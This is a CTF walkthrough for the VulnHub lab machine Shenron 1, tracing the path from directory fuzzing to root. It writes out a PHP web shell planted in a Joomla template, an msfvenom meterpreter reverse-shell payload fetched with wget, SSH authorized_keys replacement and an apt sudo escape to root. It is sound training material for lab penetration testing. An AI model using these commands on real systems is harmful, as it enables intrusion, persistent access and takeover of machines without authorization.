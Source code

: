 ```yaml
---
title: CTF Walkthrough for VulnHub Machine Shenron 1
date: 2024-09-03 00:00:00 +0300
categories: [Walkthrough, CTF]
tags: [vulnhub, writeup, shenron, machines, pentest]   
author: christ
---
```


## Introduction
Greetings everyone, in this walkthrough, we will talk about Shenron 1 which is the first machine of the Vulnhub Shenron series machines. This walkthrough is not only meant to catch the flag but also to demonstrate how a penetration tester will approach this machine in a real-world assessment.
This machine was set up using VirtualBox as recommended by the creator and the Network configuration was changed to 'Nat Network'.
### Machine Description
Name: Shenron 1<br>
Goal: Get two flags<br>
Difficulty: Beginner to Intermediate<br>
Operating System: Linux<br>
Download link: [Shenron-1](https://download.vulnhub.com/shenron/shenron-1.ova)<br>
### Tools used
1) Nmap<br>
2) Netcat<br>
3) ffuf
4) Metasploit Framework<br>
### Environment Set up
To ensure success as a penetration tester, staying organised is crucial. Proper organisation streamlines documentation and tracking of progress. In this workshop, we will create a directory tree to systematically manage our work, with detailed descriptions of each directory's purpose available here.
![Working Dir](/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/working-dir.png)

## Reconnaissance
As in every penetration test, we need to identify our target on the network. We can do this by launching a quick host discovery scan against the network using Nmap. To perform the host verification we need to know our current subnet. We can perform these using the commands below:<br>
Current subnet identification: ```ip a```<br>
Host discovery scan: ```sudo nmap -sn 10.0.2.15/24```<br><br>
![Host Identification](/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/target-dis.png)

After identifying our target on the network we need to know what services are run by our target to create different possible attack scenarios. We can start a service scan on our target using Nmap with the command below.<br> ```sudo nmap -sV -sC  10.0.2.4 -oA services-dis```<br><br>
![Service Scan](/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/service-scan.png)

We can see that the target is running both an SSH and an Apache web server. Web applications are known to contain many vulnerabilities so let's browse to the web application for further analyses. Unfortunately for us, we fall on the default Apache index page.
![Wep App Index Page](/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/web%20app%20index%20page.png)

In a real-world scenario, the default page might be left temporarily during the setup or testing phases of the web application. So let's try to find any hidden directories in the web application. I performed the fuzzing using **ffuf**, but you can use any tool of your preference. Here’s the command I used:<br>
```ffuf -ic -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt -u http://10.0.2.4/FUZZ```<br><br>
![Directory Fuzzing](/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/dir-fuzzing-1.png)

The fuzzing process uncovers two interesting directories which are the *test* and *joomla*. The directory joomla already gives us a hint that the web application may be running the well-known Joomla CMS. Let's browse these directories chronologically as they are in our results. Upon browsing to the test directory, we noticed that directory listing is enabled, which constitutes a vulnerability since it appears to expose a file containing passwords. We should document this finding in our Findings folder.
![Directory Listing](/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/directory-listing.png)

Accessing the file reveals a pair of credentials for an admin user. We can keep a note of these credentials in a file.
![File Accessed](/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/file-accessed-1.png)

Nex let's visit the second directory *joomla* uncovered during our fuzzing. We can see that our target runs the well-known Joomla CMS. Remember, we discovered credentials hidden in the comments of the password file. Let's use these credentials to log in to the Joomla administrative interface, which is typically located in the administrator directory.
*NB: By default, Joomla's administrative interface is accessed through the administrator directory.*
![Joomla Login](/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/joomla-login.png)

## Exploitation
Great, we successfully logged in as the admin. Next, we move to Extensions -> Templates -> Templates where attempt to add a PHP shell to a PHP file in an unused template. Here, I chose the protostar template and added a basic PHP shell ``` system($_GET["cmd"]);``` to the error.php file.
*NB: In a real-world penetration test try to use a more complicated name for the GET parameter value such as a hash. This is because anyone can access that file hence if a common name is used, attackers may bruteforce it and also use it to establish their foothold in your client's environment.*
![Template Modification](/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/template-modification.png)
After modifying the template we can now execute commands on our target by browsing to the page and specify the command we want to run as the GET parameter's value.<br> 
```curl http://10.0.2.4/joomla/templates/protostar/error.php?cmd=id```<br><br>
![RCE Test](/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/rce-test.png)

This web shell is good but to facilitate our work, we will employ Meterpreter, a sophisticated payload integrated into the Metasploit Framework. To use a meterpreter on our target we first need to craft one using the msfvenom tool from the Metasploit Framework.<br>
```msfvenom -p linux/x64/meterpreter_reverse_tcp  LHOST=10.0.2.15 LPORT=4444 -f elf > update.elf```<br><br>
![Payload Crafting](/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/payload-crafting-1.png)
After crafting the executable payload we then start a small HTTP server to transfer the payload to our target using Python3 http.server module.
![Python Server](/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/python-server-1.png)

We then use wget on the target to download the payload to the /tmp directory.<br> ```wget http://10.0.2.15/update.elf -O /tmp/update.elf```<br><br>
![Download Operation](/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/download-operation-1.png)
Before executing the payload, we need to configure and run a listener in Metasploit.
![Metasploit Set Up](/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/metasploit-set-up.png)
After starting the listener we now give execution permission to our payload and execute it.
![Payload Execution](/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/payload-exec-1.png)
Upon going back to the listener, we can see that the listener caught a reverse shell connection from the target.
![Catching Shell](/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/catching-shell-1.png)
Web applications usually contain a configuration file that stores database credentials. These credentials are used by the web application to connect to the database server. It's a good habit to search for this configuration file which is usually located in the web root directory. On this machine, the file is named web.config.txt. Reading its contents reveals the credentials for the database user.<br> *NB: The name of this file may change depending on the preference of the web administrator.*
![Web Config File](/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/web-root-dir.png)
![DB User Creds](/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/db-creds.png)
We see that the credentials belong to the user Jenny who is also a user on the target machine. Let's try to authenticate as Jenny.<br>
*Tip: To enumerate users on the system just cat the content of the /etc/passwd file*
![User Auth](/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/user-auth-1.png)

## Post Exploitation
At this stage in our CTF assessment, we have identified that the user is vulnerable to password reuse. Using this password, we can now check if the user has any sudo privileges.
![Sudo Right](/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/sudo-right-1.png)

Great, the user Jenny can perform copy operations by impersonating Shenron. Since we observed an SSH service running during our service enumeration, let's use the sudo privileges to replace Shenron's SSH key. To do this, I first generate a key pair \(private, public\) on my attack host and upload the public key using the same method used above but you may decide to upload it using our powerful meterpreter.
![SSH Key Gen](/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/ssh-key-gen-1.png)
After uploading the public key I replaced the **authorized_keys** file in Shenron's **.ssh** directory by impersonating Shenron using our sudo privileges and then afterward I used the private key to log in as Shenron.
![SSH Key Replace](/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/ssh-key-replacement-1.png)
![SSH Login](/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/ssh-login-1.png)
We successfully logged in as Shenron we can now use this new account to read the user's flag and further the enumeration process of the system.
![User Flag](/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/user-flag.png)
Some users tend to store their passwords in specific files so, let's try to enumerate all files having the string 'password' in their names with the command below.<br> ```find / -iname *password* 2>/dev/null```.<br> We got a hit in the /var/opt directory. Reading the content of the files exposes to us what seems like Shenron's password.
![File Enum](/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/file-enum-2.png)
We can now use that password to read Shenron's sudo privileges.
![Sudo Right](/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/sudo-right-2.png)
We observe that this account can be used to run apt with root privilege. Let's browse to [GTFOBins](https://gtfobins.github.io/gtfobins/apt/#sudo) to see how we can exploit this right to obtain a root shell. the command GTFOBins provides us with a way of exploiting this privilege but I chose to use the command below. <br>```sudo /usr/bin/apt update -o APT::Update::Pre-Invoke::=/bin/sh```<br><br>
![Root Access](/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/root-access.png)<br>
Great, we have obtained root access to the machine, having this access means we own the machine and can do whatever we want. 

## Conclusion
Congratulations, in this walkthrough you have learned how a simple file listing vulnerability could be used to take over a machine. In a real-world assessment, the last step will be to gather our findings and draft a report for our clients. Thanks for following up on this walkthrough.
